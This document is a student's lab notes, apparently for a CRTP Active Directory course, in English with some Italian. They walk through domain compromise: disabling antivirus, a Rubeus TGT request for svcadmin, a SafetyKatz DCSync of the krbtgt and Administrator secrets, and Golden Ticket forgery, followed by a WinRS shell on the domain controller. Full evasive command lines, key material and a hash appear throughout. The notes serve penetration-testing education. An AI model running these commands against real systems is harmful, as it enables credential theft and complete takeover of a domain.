

  

> [!INFO] Learning objectives
> 1. Extract authentication secrets from the `dollarcorp.moneycorp.local` domain controller using the access established earlier in the lab.
> 2. Understand how the `krbtgt` account's key material is used in the Golden Ticket exercise.
> 3. Examine the validation of the resulting Kerberos authentication context against `dcorp-dc`.

> [!NOTE] 
> In questa parte del laboratorio si passa dall'accesso con un account privilegiato alla compromissione del **secret dell'account `krbtgt`**, fondamentale per Kerberos in Active Directory. 


## Attack flow


## 1. Prepare the PowerShell environment

The lab begins with InviShell and PowerView.
```powershell
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

>[!IMPORTANT]
>WE HAVE TO DISABLE REAL TIME PROTECTION ON STUDENT VM
>![[Pasted image 20261123181347.png]]


  

## 2. Establish the `svcadmin` Kerberos authentication context

> [!warning] HINTS
> We should distinguish preparing a network authentication context from opening a remote session. 
> 
> Creating a process with network-only credentials does not itself place us on `dcorp-mgmt` or the Domain Controller.


First of all we need to get the access to `svcadmin`:

```powershell

C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```


> [!WARNING] Important distinction — `dcorp-mgmt` is not the Domain Controller
> The original heading says **“Access to dcorp-mgmt”**, but this command **does not itself open a remote shell on `dcorp-mgmt`**: it establishes a Kerberos/network logon context on the machine where it is executed. `dcorp-dc` is the Domain Controller referenced later.

  
  

## 3. Extract `krbtgt` secrets — DCSync

> [!warning] HINTS
> DCSync depends on directory replication rights, not simply on local administrator membership of the workstation. 
> 
> When interpreting a finding, we should identify the domain naming context and the account whose replication permissions are being used.


The next step is: extract the `krbtgt` account tickets leveraging on `srvadmin` privileges.

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
- this command works because we have a ticket in our shell for `svcadmin`, so these network requests are done by `svcadmin`
![[Pasted image 20261123184116.png]]
### What happens conceptually?
- `SafetyKatz.exe` is a Mimikatz-derived program used in the exercise.
- `lsadump::evasive-dcsync` is the tool-specific DCSync operation .
- `/user:dcorp\krbtgt` identifies the account whose secret material is being requested.

**DCSync** uses Active Directory's directory-replication interfaces to request account secrets from a Domain Controller. 
It is not the same as locally reading the registry on `dcorp-mgmt`, and it does not require the requesting process to be physically running on a Domain Controller.
  
> [!NOTE] 🇮🇹 Spiegazione in italiano
> Con DCSync un'identità che possiede i necessari privilegi di replica può richiedere al Domain Controller materiale riservato associato a un account. 
> Qui l'account selezionato è `krbtgt` del dominio `dcorp`. Il nome del comando contiene *DCSync* proprio perché viene sfruttata l'interfaccia di replica di Active Directory. Non stiamo semplicemente leggendo una password dalla memoria di `dcorp-mgmt`: stiamo chiedendo al DC informazioni attraverso un meccanismo di replica.
  
> [!IMPORTANT] Why `krbtgt` matters
> The `krbtgt` account is used by the Kerberos Key Distribution Center to protect Ticket Granting Tickets. Exposure of its key material can undermine the trustworthiness of TGTs issued for the domain.


## 4. Collect the values used in the Golden Ticket exercise

> [!warning] HINTS
> We should check the data types carefully: a full SID and its final RID are different values, as are group SIDs and group RIDs. 
> 
> Collecting metadata is a separate task from validating the resulting Kerberos authorization.  


Before the Golden Ticket step, we need to collect domain and account metadata:
  
>[!Important]
>We need to run these commands in our student shell in order to avoid noise on the DC
>
| Rubeus parameter | Enumeration command recorded in the notes |
|---|---|
| `/domain` | `(Get-Domain).Name` | 
| `/sid` | `Get-DomainSID` | 
| `/id` | `(Get-DomainUser -Identity Administrator).objectsid` | 
| `/pgid` | `(Get-DomainUser -Identity Administrator).primarygroupid` | 
| `/pwdlastset` | `(Get-DomainUser -Identity Administrator).pwdlastset` | 
| `/logoncount` | `(Get-DomainUser -Identity Administrator).logoncount` |
| `/netbios` | `(Get-ADDomain).NetBIOSName`  (needs AD module)| 
| `/groups` | `Get-DomainGroup -UserName Administrator \| select objectsid` | 
| `/dc` | `Get-DomainController \| select name` | 
| `/uac` | `(Get-DomainUser -Identity Administrator).useraccountcontrol` |
| `/minpassage` | `(Get-DomainPolicyData).SystemAccess.MinimumPasswordAge` | 

For the AD module, we need to include the modules:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll -Verbose

Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

  

## 5. Golden Ticket generation 
Now we have everything to rcreate a golden ticket. So we can run:

```powershell
C:\AD\Tools\Rubeus.exe evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /user:Administrator /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:20759 /netbios:dcorp /groups:520,572,513,512 /dc:dcorp-dc.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```
- ![[Pasted image 20261123184848.png]]

## 6. Validate remote access to `dcorp-dc`

> [!warning] HINTS
> A successful remote shell is evidence that the target accepted the presented context. 
> 
> We should not describe it as proof of every claimed group membership unless the effective permissions or directory membership were separately verified.


The final command to validate the access on the `Domain Controller` using the `Golden Ticket` (associated to the default `Administrator` user) is:

```powershell
winrs -r:dcorp-dc cmd
```
- ![[Pasted image 20261123192416.png]]

We can get also the `NTLM` hash od administrator now, from our `srvadmin` privileges:
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\Administrator" "exit"
```
- `af0686cc0ca8f04df42210c9ac980760`


---

## 7. CRTP quick reference

> [!IMPORTANT] Final takeaway
> **`svcadmin` access → DCSync of `krbtgt` → Golden Ticket context → WinRS validation on `dcorp-dc`.**
>
> Remember that DCSync, a TGT request, ticket forgery and remote authorization are **four separate mechanisms**. Understanding the distinction matters more than memorizing an entire command line.

